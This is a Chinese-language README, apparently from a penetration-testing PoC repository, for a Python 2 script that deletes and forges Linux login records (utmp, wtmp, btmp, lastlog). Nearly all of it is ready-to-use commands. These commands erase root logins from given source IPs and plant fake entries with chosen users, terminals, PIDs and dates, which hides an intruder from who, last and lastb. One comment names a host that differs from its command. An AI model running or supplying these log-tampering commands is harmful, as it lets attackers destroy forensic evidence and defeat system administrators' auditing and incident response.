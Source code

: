 ## 渗透测试TIPS之删除、伪造Linux系统登录日志  
> 来源于[freebuf](https://www.freebuf.com/articles/system/141474.html)，文章备份:[渗透测试TIPS之删除伪造Linux系统登录日志.pdf](渗透测试TIPS之删除伪造Linux系统登录日志.pdf),但是文章脚本失效了,我保存了一份.
### 适用于 Linux 系统，[`fake_login_log.py`](https://github.com/Mr-xn/Penetration_Testing_POC/blob/master/ssh/fake_login_log.py) 脚本默认适用于`python2`版本

## USEAGE  
### 删除日志  
1. 删除utmp记录，将自己从w或者who输出中隐藏  
`python fake_login_log.py --mode delete --type utmp --user root` //删除用户为root的用户记录  
`python fake_login_log.py --mode delete --type utmp --user root --host "58.47.251.255" `//删除用户为root且登录来源host为58.47.251.255的用户记录  
2. 删除历史登录记录(wtmp)，隐藏last的记录  
`python fake_login_log.py --mode delete --type wtmp --user root --host "111.30.32.213" `//删除用户为root且登录来源host为111.30.32.213的用户记录
3. 删除btmp记录，隐藏lastb的记录，lastb为登录失败的用户记录  
`python fake_login_log.py --mode delete --type btmp --user root --host "172.16.50.156" `//删除用户为root且登录来源host为127.0.0.1的用户记录  
4. 删除lastlog记录，不能通过用户删除，只能通过host或者时间  
`python fake_login_log.py --mode delete --type lastlog --host "172.16.50.1" `//删除来源host的用户登录记录  
`python fake_login_log.py --mode delete --type lastlog --date "2017-8-2 22:46:34" `//删除登录时间为2017-8-2 22:46:34的用户登录记录  

### 伪造日志  
1. 伪造utmp记录，将自己从w或者who输出中伪造  
`python fake_login_log.py --mode add --type utmp --user nobody --tty "pts/8" --pid 25394 --date "2017-8-2 22:46:34" --host "127.0.0.1" `//伪造用户为nobody的用户记录  
> 这里伪造的时间和host可以通过who命令去找到，PID一般伪造bash或者ssh通过`ps -aux | grep ssh/bash`去寻找  
2. 伪造历史登录记录(wtmp)，伪造last的记录  
`python fake_login_log.py --mode add  --type wtmp --user root --tty "pts/7" --date "2017-8-2 00:06:34" --host "127.0.0.1" `  
3. 伪造btmp记录，伪造lastb的记录，lastb为登录失败的用户记录  
`python fake_login_log.py --mode add  --type btmp --user root --tty "pts/7" --date "2017-8-2 00:06:34" --host "127.0.0.1" `//伪造用户为root且登录来源host为127.0.0.1的用户登录失败记录  
4. 伪造lastlog记录  
`python fake_login_log.py --mode add --type=lastlog --user=rootclay --date="2017-7-24 14:22:07" --tty "pts/2" --host "127.0.0.1" `//伪造用户为rootclay 时间2017-7-24 14:22:07 来源登录ip为127.0.0.1的用户登录记录  
